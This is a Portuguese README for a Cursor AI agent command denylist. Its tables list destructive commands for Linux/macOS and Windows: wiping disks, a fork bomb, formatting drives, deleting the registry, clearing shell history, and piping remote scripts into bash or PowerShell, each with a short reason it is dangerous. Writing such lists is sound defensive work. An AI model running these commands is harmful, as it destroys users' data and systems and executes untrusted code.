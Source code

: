 # Cursor Agent — Denylist Mortal (README)

## Como usar no Cursor

1. **Cursor → Settings → Features → Command denylist**  
2. Copie cada comando abaixo (botão “Copy” do GitHub) e cole no painel.  
3. Salve.

> **Por quê?** Todos são comandos destrutivos: apagam disco, formatam partição, baixam código não-verificado ou matam processos críticos.

---

## Linux / macOS

| Comando | Por que é perigoso |
|---------|-------------------|
| ```rm -rf /``` | Apaga todo o sistema. |
| ```sudo rm -rf /*``` | Idem, mas como root. |
| ```mv ~ /dev/null``` | Remove todo seu home. |
| ```dd if=/dev/random of=/dev/sda``` | Sobrescreve o disco com lixo. |
| ```:(){ :|:& };:``` | Fork-bomb que trava o SO. |
| ```chmod -R 777 /``` | Remove segurança de permissões. |
| ```find / -type f -exec rm -f {} \;``` | Exclui todos os arquivos. |
| ```mkfs.*``` | Formata partições. |
| ```kill -9 1``` | Mata o init e derruba o sistema. |
| ```killall5``` | Encerra todos os processos. |
| ```> ~/.bash_history``` | Apaga rastros. |
| ```wget URL -O - \| bash``` | Executa código remoto não confiável. |
| ```curl URL \| bash``` | Idem. |
| ```echo MAL > /etc/passwd``` | Corrompe banco de usuários. |
| ```shutdown now``` | Desliga sem aviso. |
| ```reboot``` | Reinicia sem aviso. |

---

## Windows

| Comando | Por que é perigoso |
|---------|-------------------|
| ```format C: /Q /Y``` | Formata drive C:. |
| ```del /f /s /q C:\*``` | Apaga todos os arquivos. |
| ```rd /s /q C:\``` | Remove diretórios recursivamente. |
| ```takeown /R /F C:\``` | Toma posse de tudo (quebra ACL). |
| ```icacls C:\ /grant Everyone:F /T``` | Concede acesso total a todos. |
| ```cipher /w:C``` | Faz wipe do disco. |
| ```reg delete HKLM /f``` | Remove hive crítico do Registro. |
| ```reg delete HKCU /f``` | Apaga perfil do usuário. |
| ```reg delete HKCR\.exe /f``` | Quebra associação de executáveis. |
| ```assoc .exe=``` | Idem, via assoc. |
| ```powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (Invoke-WebRequest URL).Content"``` | Executa script remoto malicioso. |
| ```bitsadmin /transfer badjob URL C:\a.exe``` | Baixa malware usando BITS. |
| ```diskpart /s %TEMP%\wipe.txt``` | Automatiza diskpart para limpar discos. |
| ```taskkill /F /IM svchost.exe``` | Mata serviços essenciais. |
| ```shutdown -s -t 0``` | Desliga imediatamente. |
| ```shutdown -r -t 0``` | Reinicia imediatamente. |

---

**Pronto.** Copie cada bloco e cole na sua denylist. GitHub exibe um ícone Copy em cada bloco de código, não precisa de JavaScript extra.
